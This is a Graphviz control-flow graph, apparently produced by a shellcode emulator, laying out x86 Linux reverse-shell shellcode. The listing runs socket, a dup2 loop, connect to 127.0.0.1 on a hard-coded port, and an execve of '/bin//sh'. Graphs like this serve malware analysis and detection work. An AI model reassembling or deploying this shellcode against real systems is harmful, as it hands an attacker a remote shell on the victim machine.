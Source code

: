 digraph G {
	//rankdir=LR
	node [fontname=Courier, labeljust=r];
	 "0x2fc90b0" [shape=box, label = "0x00417000 687F000001                      push dword 0x100007f\l0x00417005 5E                              pop esi\l0x00417006 6668D903                        push word 0x3d9\l0x0041700a 5F                              pop edi\l0x0041700b 6A66                            push byte 0x66\l0x0041700d 58                              pop eax\l0x0041700e 99                              cwd \l0x0041700f 6A01                            push byte 0x1\l0x00417011 5B                              pop ebx\l0x00417012 52                              push edx\l0x00417013 53                              push ebx\l0x00417014 6A02                            push byte 0x2\l"]
	 "0x2fc4f10" [shape=box, label = "0x00417016 89E1                            mov ecx,esp\l"]
	 "0x2fc49f0" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417018 socket\l"]
	 "0x2fc4540" [shape=box, label = "0x0041701a 93                              xchg eax,ebx\l0x0041701b 59                              pop ecx\l"]
	 "0x2fc3930" [shape=box, label = "0x0041701c B03F                            mov al,0x3f\l"]
	 "0x2fc3410" [shape=box, style=filled, color=".7 .3 1.0", label = "0x0041701e dup2\l"]
	 "0x2fc2f60" [shape=box, label = "0x00417020 49                              dec ecx\l"]
	 "0x2fc2a40" [shape=box, label = "0x00417021 79F9                            jns 0xfffffffb\l"]
	 "0x2fc24e0" [shape=box, label = "0x00417023 B066                            mov al,0x66\l0x00417025 56                              push esi\l0x00417026 6657                            push di\l0x00417028 666A02                          push byte 0x2\l0x0041702b 89E1                            mov ecx,esp\l0x0041702d 6A10                            push byte 0x10\l0x0041702f 51                              push ecx\l0x00417030 53                              push ebx\l0x00417031 89E1                            mov ecx,esp\l"]
	 "0x2fbf2e0" [shape=box, style=filled, color=".7 .3 1.0", label = "0x00417033 connect\l"]
	 "0x2fbee30" [shape=box, label = "0x00417035 B00B                            mov al,0xb\l0x00417037 52                              push edx\l0x00417038 682F2F7368                      push dword 0x68732f2f\l0x0041703d 682F62696E                      push dword 0x6e69622f\l0x00417042 89E3                            mov ebx,esp\l0x00417044 52                              push edx\l0x00417045 53                              push ebx\l0x00417046 EBCE                            jmp 0xffffffd0\l"]
	 "0x2fc90b0" -> "0x2fc4f10" [style = bold ]
	 "0x2fc4f10" -> "0x2fc49f0" [style = bold, color=orange ]
	 "0x2fc49f0" -> "0x2fc4540" [style = bold, color=orange ]
	 "0x2fc4540" -> "0x2fc3930" [style = bold, color=orange ]
	 "0x2fc3930" -> "0x2fc3410" [style = bold, color=red ]
	 "0x2fc3410" -> "0x2fc2f60" [style = bold, color=red ]
	 "0x2fc2f60" -> "0x2fc2a40" [style = bold, color=red ]
	 "0x2fc2a40" -> "0x2fc3930" [style = bold, color=red ]
	 "0x2fc2a40" -> "0x2fc24e0" [style = bold ]
	 "0x2fc24e0" -> "0x2fbf2e0" [style = bold ]
	 "0x2fbf2e0" -> "0x2fbee30" [style = bold ]
	 "0x2fbee30" -> "0x2fc4f10" [style = bold ]
}